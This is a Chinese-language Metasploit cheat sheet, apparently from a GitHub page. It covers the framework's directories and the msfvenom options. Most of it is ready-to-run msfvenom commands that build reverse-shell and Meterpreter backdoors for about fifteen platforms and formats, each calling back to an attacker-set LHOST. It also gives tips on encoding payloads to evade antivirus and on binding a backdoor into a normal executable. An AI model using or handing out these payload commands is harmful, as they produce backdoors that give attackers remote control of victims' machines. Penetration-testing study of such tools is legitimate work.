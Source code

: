 # 查看模块
1. 在kali终端中输入:
```markdown
cd /usr/share/metasploit-framework
```

2. 查看
```markdown
ls
```
**注意:可能无法一次cd成功, 可以一步步分开cd**

# 认识模块
| # 模块
 | # 功能
 |
| --- | --- |
| modules | 目录里面存放渗透使用的 辅助模块 编码模块 利用模块 攻击载荷 后渗透模块 |
| plugins | 这个模块需要用load加载，主要提供数据库连接插件 和 各种要用到的插件。
 |
| tools | 包含一些有用的脚本和零散的工具。
 |
| scripts | 目录里面存放都是meterpreter利用的脚本。
 |
| db | 数据放在这个目录里
 |
| data | 存放使用到的文件，比如密码字典、meterpreter、passivex、vnc、dlls等工具和一些用户接口代码，msfweb和一些其他模块用到的数据文件
 |
| lib | 库文件都保存在这个目录里 |


# msf常用参数
## 简介

Kali中的 msfvenom 取代了msfpayload和msfencode，常用于生成后门木马
msfpayload是MSF攻击荷载生成器，用于生成shellcode和可执行代码。
msfencode是MSF编码器。

---

一 、msfvenom 常用参数

-l
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all

-p
指定需要使用的payload(攻击荷载)。

-f
指定输出格式
Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；

Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；

-e
指定需要使用的encoder（编码器）编码免杀。

-a
指定payload的目标架构

选择架构平台:x86 | x64 | x86_64
Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe

-o
保存payload文件输出。

-b
设定规避字符集，比如: '\x00\xff'避免使用的字符

-n
为payload预先指定一个NOP滑动长度

-s
设定有效攻击荷载的最大长度生成payload的最大长度，就是文件大小。

-i
指定payload的编码次数

-c
指定一个附加的win32 shellcode文件

-x
指定一个自定义的可执行文件作为模板
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-k
保护模板程序的动作，注入的payload作为一个新的进程运行
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-v
指定一个自定义的变量，以确定输出格式

# msfvenom在各个平台生成payload的命令
> **注意:**
> 1. **使用时, 只需要修改 LHOST的ip和LPORT的端口就行.**
> 2. **还有 -i , 一般指定编码10次**
> 3. **复制的时候不要有空格, 否则会报错**
> 4. **下面有几条没有使用 -o 的就直接出处到终端了, 那不是报错**
> 




## Windows
```markdown
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.33 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10 -f exe -o payload.exe
```

---


## Mac
```markdown
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho
```

---


## Android
```markdown
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -o payload.apk
```

---


## Powershell
```markdown
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

---


## Linux
```markdown
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf
```

---

## php

```markdown
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f raw > shell.php
```

---


## aspx
```markdown
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx
```

---


## JSP
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.jsp

---

## war

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war

---


## nodejs
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.js

---


## python
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.py

---


## perl
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.pl

---


## ruby
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

---


## lua
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

---


## windows shellcode
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---


## linux shellcode
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---


## mac shellcode
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c







